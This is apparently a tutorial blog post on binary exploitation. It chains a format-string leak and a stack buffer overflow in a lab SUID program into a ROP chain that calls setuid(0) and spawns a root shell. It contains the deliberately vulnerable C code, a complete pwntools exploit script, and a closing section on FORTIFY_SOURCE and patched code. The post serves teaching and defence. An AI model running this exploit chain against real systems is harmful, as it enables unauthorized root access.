





Bypassing Modern Binary Protections: A Full-Chain SUID Privilege Escalation
View Exploit Code on GitHubExploiting a simple buffer overflow is a fundamental exercise, but modern 64-bit Linux environments demand a more sophisticated approach. Today's systems security relies on a fortress of mitigations: ASLR (Address Space Layout Randomization), PIE (Position Independent Executables), NX (Non-Executable Stack), and Stack Canaries. Gone are the days of simply pointing the Instruction Pointer (RIP) at a block of shellcode.
In this research, we will chain a Format String memory leak with a classic Buffer Overflow to dynamically bypass ASLR, surgically restore the Stack Canary, align the stack to avoid CPU faults, and execute a Return-Oriented Programming (ROP) chain to drop a root shell from an SUID binary.
1. The Target Environment & Defenses (checksec)
Before writing a single line of an exploit, a vulnerability researcher must understand the battlefield. Running the checksec tool against our target binary reveals the exact security mitigations compiled into the executable by the operating system.

Figure 1: Initial checksec output. Green indicates enabled mitigations, while red indicates critical weaknesses.
Decoding the checksec Parameters
Here is exactly what each of these parameters means, and how they dictate our exploit strategy:
- RELRO (Relocation Read-Only): Full RELRO. This secures the Global Offset Table (GOT). Because it is "Full", the entire GOT is marked strictly read-only immediately after the program starts. This completely eliminates "GOT Overwrite" attacks, forcing us to hijack the return address on the stack instead.
- STACK CANARY: Canary found. This is an 8-byte randomized secret value placed directly before the saved instruction pointer (RIP) on the stack. If our buffer overflow corrupts it, the program will instantly abort with a
*** stack smashing detected ***error. We cannot simply smash past it; we must leak it and surgically replace it. - NX (Non-Executable Stack): NX enabled. This hardware-level protection (DEP) marks the stack memory region as strictly read/write, but not executable. We cannot inject our own shellcode onto the stack and execute it. This forces us to use Return-Oriented Programming (ROP).
- PIE (Position Independent Executable): PIE enabled. This randomizes the base memory address where the binary's code is loaded every time it runs. We cannot hardcode memory addresses for our ROP gadgets; we must calculate them dynamically using a memory leak.
- RPATH / RUNPATH: No RPATH / No RUNPATH. These parameters dictate custom search paths for shared libraries. If present and writable by an attacker, they can lead to trivial DLL/Library hijacking. Our binary is secure here.
- Symbols: Not Stripped. This is a massive red flag (and our first advantage). It means the developer left the debugging symbols in the binary. Instead of reverse-engineering unnamed assembly functions in a disassembler like Ghidra, we can clearly see the exact function names.
- FORTIFY: Disabled. This is the critical weakness that makes our exploit possible.
_FORTIFY_SOURCEis a powerful compiler defense that automatically replaces dangerous functions with hardened, bounds-checking equivalents. Because it is off, the binary will blindly accept our overflows.
2. The Vulnerabilities (The Primitives)
To defeat the towering mitigations shown in checksec, we need two distinct primitives: a way to read memory (to bypass ASLR and the Canary) and a way to write memory (to hijack the execution flow).
Bug 1: Format String (The Read Primitive)
In the welcome_user function, the developer directly passes the command-line argument (argv[1]) into a printf() call without a format specifier. By supplying positional format specifiers like %31$p, we can force the program to traverse the stack and print raw memory addresses, exposing our Canary and Libc pointers.
Bug 2: The Classic Buffer Overflow (The Write Primitive)
The process_feedback function contains a textbook buffer overflow. The developer allocated a 64-byte array on the stack, but explicitly instructed the read() system call to accept up to 256 bytes from the user.
void process_feedback() {
char buffer[64];
printf("\nEnter your feedback (Max 64 chars): ");
fflush(stdout);
// VULNERABILITY 2: Classic Buffer Overflow
// read() allows 256 bytes into a 64-byte buffer.
read(0, buffer, 256);
}
void welcome_user(char *user_input) {
// VULNERABILITY 1: Format String Leak
printf("Current Session for: ");
printf(user_input); // Unsafe!
printf("\n");
}3. Stage 1: Leaking the Secrets
ASLR randomizes where Libc is loaded in memory, and the Stack Canary is a randomized 8-byte value placed directly before the return address. Both must be leaked dynamically on every single run before we can send our payload.
To map the stack, I used a bash loop to spray format specifiers into the program: for i in {25..40}; do echo "A" | ./vuln "%$i\$p"; done. (Note: We pipe "A" into the program to cleanly bypass the subsequent feedback prompt during our loop).

Figure 2: Format String stack dump. Notice the structured layout of the leaked memory.
How to Read the Matrix (Identifying the Targets)
When analyzing a raw hex dump, a vulnerability researcher relies on strict memory geography to identify targets:
- The Canary (Index 31): Look closely at
0xc4b04881fd7d3900. On 64-bit Linux, the canary is always 8 bytes long. The first 7 bytes are high-entropy (randomized) data, but the very last byte is always00(a null byte). The OS enforces this00so that if a developer accidentally usesstrcpy()on an adjacent buffer, the string function hits the null byte and stops, preventing accidental canary leaks. - The Libc Leak (Index 33): Look at
0x7f31042faf68. Addresses starting with0x7f...belong to shared libraries. Specifically, this leak sits exactly two stack rows beneath the canary, which is exactly where the saved return pointer back to__libc_start_mainlives.
4. Stage 2: Verifying with GDB & Memory Geography
Because ASLR moves Libc around every time, we cannot hardcode the address of system(). However, the distance (offset) between our leaked Libc address and the actual base of the Libc library is permanently fixed for the given OS kernel. We must use GDB to find this static offset.

Figure 3: Finding the True Libc Base in memory using GDB's process mappings.

Figure 4: Continuing the program to capture the leaked address for the offset calculation.
The Offset Calculation
By pausing the program in GDB, we look at info proc mappings to find the "True Base" where libc.so.6 was loaded (e.g., 0x7f526fa08000). We then let the program continue and print our leak (e.g., 0x7f526fa31f68).
Subtracting the True Base from the Leaked Address yields a constant static offset: 0x29f68. In our final Python script, we take the dynamic leak on every run, subtract 0x29f68, and we instantly know exactly where Libc is located, entirely bypassing ASLR.
5. Stage 3: Anatomy of the ROP Chain
With NX (Non-Executable Stack) enabled, we cannot execute shellcode on the stack. Instead, we use Return-Oriented Programming (ROP). We hijack the Instruction Pointer and force it to bounce between small snippets of executable code ending in a ret instruction (called "gadgets") located inside the Libc library.
libc.symbols['system'] (Executes the shell using the string pointed to by RDI)
next(libc.search(b"/bin/sh")) (Data: The memory address of the string "/bin/sh")
libc.symbols['setuid'] (Executes setuid(0) using the 0 currently in RDI)
0x0000000000000000 (Data: The integer 0, popped into RDI)
pop rdi; ret (Gadget: Takes the next item on stack and places it in the RDI register)
ret (Stack Alignment Gadget - Shifts RSP by 8 bytes)
Breaking Down the Chain Execution
Unlike 32-bit Linux where function arguments are passed directly on the stack, 64-bit Linux uses the System V AMD64 ABI calling convention. This means the first argument to any function must be stored in the RDI register before the function is called.
- The
pop rdi; retGadget: To callsetuid(0), we need to get the number0into theRDIregister. When our gadget executes, it pops the next item on the stack (the0we provided) intoRDI. - The
setuid(0)Call: Because our binary has the SUID bit set, we must execute this to tell the OS kernel to formally elevate our process privileges to root. Without this,system("/bin/sh")would merely spawn a normal user shell. - Loading the String: We call
pop rdi; retagain, but this time we provide the memory address of the string"/bin/sh"(which is natively compiled into the Libc library). - Spawning the Shell: We finally call
system(). It looks at theRDIregister, sees the pointer to"/bin/sh", and executes it.
During early exploitation, the script successfully hijacked execution, but the moment the shell dropped, it silently crashed with Exit Code 0 or threw an EOF error. This is the notorious movaps curse. The system() function utilizes advanced instructions that hard-fault (SIGSEGV) if the stack pointer (RSP) is not aligned to a 16-byte boundary. Injecting a dummy ret gadget at the very beginning of the chain serves as a "no-op" that cleanly shifts the stack by 8 bytes, aligning it perfectly and preventing the crash.
6. Execution & Escalation to Root
After compiling the vulnerable binary, assigning ownership to root, and enabling the SUID bit (chmod 4755 vuln), the Python exploit script is launched. It dynamically parses the binary context, harvests the format string leaks from the CLI execution, calculates the precise Libc boundaries, and fires the 256-byte payload into the feedback buffer to pop the shell.

Figure 5: Full-chain execution resulting in a root shell. Validated via whoami and id.
The Final Exploit Code
from pwn import *
# 1. Setup
exe = ELF('./vuln')
context.binary = exe # Crucial for 64-bit packing!
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
# Start the process and pass our precise leaks via argv[1]
p = process([exe.path, '%31$p.%33$p'])
# 2. Extract Leaks
p.recvuntil(b"Current Session for: ")
leaks = p.recvline().decode().strip().split('.')
canary = int(leaks[0], 16)
libc_leak = int(leaks[1], 16)
log.success(f"Leaked Canary: {hex(canary)}")
log.success(f"Leaked Libc: {hex(libc_leak)}")
# 3. Calculate Libc Base
libc.address = libc_leak - 0x29f68
log.success(f"Libc Base: {hex(libc.address)}")
# 4. ROP Gadgets
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0] # Stack alignment gadget
# 5. Build Payload
payload = b"A" * 72 # Padding
payload += p64(canary) # Surgically replace the Canary
payload += b"B" * 8 # Overwrite the saved RBP
# Privilege Escalation (setuid(0))
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(libc.symbols['setuid'])
# Spawn Root Shell (system("/bin/sh"))
payload += p64(ret) # Align stack to 16-bytes to prevent movaps crash
payload += p64(pop_rdi)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols['system'])
# 6. Fire the Exploit
p.recvuntil(b"Enter your feedback (Max 64 chars): ")
p.sendline(payload)
log.info("Firing ROP chain... Dropping to shell!")
p.interactive()7. Mitigations & Secure Coding
This exploit successfully bypassed four major memory protections (NX, PIE, ASLR, and Canaries), but it was only possible because we had the "primitives" to read and write memory arbitrarily due to poor C programming.
The Power of _FORTIFY_SOURCE=2
If the binary had been compiled with _FORTIFY_SOURCE=2, the compiler would have actively sabotaged our exploit during the compilation phase by replacing standard libc functions with hardened wrappers:
- Defeating the Leak (
__printf_chk): Fortify replacesprintfwith__printf_chk. If it detects that a format string is located in writable memory (like the Stack, where user input lives) rather than read-only memory (.rodata), it strictly blocks positional arguments like%31$p. The program aborts instantly, completely blinding our exploit. - Defeating the Overflow (
__read_chk): Fortify replacesreadwith__read_chk. Because our buffer array size is statically known at compile-time (64 bytes), the compiler passes this metadata to the checking function. It intercepts the call at runtime, realizes we are trying to write 256 bytes into a 64-byte array, and throws a fatal error before our payload even reaches the Canary.
The Patched Code
To fundamentally prevent these bugs at the source level, developers must enforce strict input formatting and bound limits. Here is the securely patched version of the target binary:
void process_feedback() {
char buffer[64];
printf("\nEnter your feedback (Max 64 chars): ");
fflush(stdout);
// PATCH 2: Buffer Overflow Fixed
// Using sizeof(buffer) strictly constrains the read limit.
read(0, buffer, sizeof(buffer));
}
void welcome_user(char *user_input) {
// PATCH 1: Format String Leak Fixed
// By using "%s", printf treats the input strictly as a literal string.
printf("Current Session for: ");
printf("%s", user_input);
printf("\n");
fflush(stdout);
}Conclusion
Modern binary exploitation is a puzzle of constraints. As hardware and compilers evolve to eradicate entire classes of vulnerabilities, exploiting a binary requires chaining multiple distinct logic flaws together. It demands a deep understanding of not just the vulnerability, but the OS's memory geography, the C Standard Library, and the underlying CPU architecture.